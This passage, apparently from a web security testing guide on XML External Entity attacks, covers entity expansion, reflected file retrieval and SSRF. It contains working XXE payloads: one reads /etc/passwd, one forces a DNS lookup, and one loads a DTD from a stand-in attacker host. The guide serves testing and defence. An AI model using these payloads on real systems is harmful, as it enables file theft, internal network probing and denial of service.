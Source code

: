 ```xml
]>
<SOAP:ENVELOPE ENTITYREFERENCE="&LOL9;"
               XMLNS:SOAP="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/">
 <SOAP:BODY>
  <KEYWORD XMLNS="URN:PARASOFT:WS:STORE">FOO</KEYWORD>
 </SOAP:BODY>
</SOAP:ENVELOPE>
```

#### Reflected File Retrieval

Consider the following example code of an XXE:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
 <!ELEMENT includeme ANY>
 <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<root>&xxe;</root>
```

The previous XML defines an entity named `xxe`, which is in fact the contents of `/etc/passwd`, which will be expanded within the `includeme` tag. If the parser allows references to external entities, it might include the contents of that file in the XML response or in the error output.

#### Server Side Request Forgery

Server Side Request Forgery (SSRF) happens when the server receives a malicious XML schema, which makes the server retrieve remote resources such as a file, a file via HTTP/HTTPS/FTP, etc. SSRF has been used to retrieve remote files, to prove a XXE when you cannot reflect back the file or perform port scanning, or perform brute force attacks on internal networks.

##### External DNS Resolution

Sometimes is possible to induce the application to perform server-side DNS lookups of arbitrary domain names. This is one of the simplest forms of SSRF, but requires the attacker to analyze the DNS traffic. Burp has a plugin that checks for this attack.

```xml
<!DOCTYPE m PUBLIC "-//B/A/EN" "http://checkforthisspecificdomain.example.com">
```

##### External Connection

Whenever there is an XXE and you cannot retrieve a file, you can test if you would be able to establish remote connections:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
 <!ENTITY % xxe SYSTEM "http://attacker/evil.dtd">
 %xxe;
]>
```
